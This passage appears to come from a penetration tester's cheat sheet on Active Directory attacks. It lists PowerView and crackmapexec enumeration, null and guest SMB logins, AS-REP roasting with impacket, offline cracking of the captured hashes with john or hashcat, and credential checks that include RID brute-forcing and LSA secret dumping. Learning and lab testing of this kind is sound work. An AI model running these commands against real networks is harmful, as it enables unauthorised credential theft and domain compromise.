 **Information about computers**
> Get-NetComputer
> 
> Get-NetComputer -FullData
> 
> Get-NetGroup
>
> Get-NetGroup -GroupName \<group-name>
>
> Get-NetGroup -GroupName "Domain Admins"
> 
> Get-NetGroupMember -GroupName "Domain Admins"

**See SMB shares**
> Invoke-ShareFinder

<br>

### Crackmapexec
A few quick commands that I always use if I have no information about the machine
> crackmapexec smb \<ip>
> 
> crackmapexec smb \<ip> -u '' -p ''
> 
> crackmapexec smb \<ip> -u 'guest' -p ''

<br>

## Exploitation

### ASREP-Roasting
With a list of valid usernames and no passwords, you can check if Kerberos has pre-authentication disabled by ASREP-Roasting
> impacket-GetNPUsers -format john -dc-ip \<dc-ip>  -usersfile \<users-list> \<name_of_domain>/\<hostname>

or
> python3 GetNPUsers.py \<domain>/\<user> -no-pass -dc-ip \<dc-ip>

To crack obtained hashes, save them in a file and give it to John. I usually use rockyou.txt to brute-force the passwords
> john --wordlist=\<passwords-file> \<hashes-file>

Alternative
> hashcat -m 18200 -a 0 \<hashes-file> \<passwords-file>

If you obtained any passwords, check them
> crackmapexec smb \<ip> -U \<user> -p \<password>

If they are valid, further enumerate the domain
> crackmapexec smb \<ip> -U \<user> -p \<password> --shares
> 
> crackmapexec smb \<ip> -U \<user> -p \<password> --rid-brute
> 
> crackmapexec smb \<ip> -U \<user> -p \<password> --users
>
> crackmapexec smb \<ip> -U \<user> -p \<password> --lsa
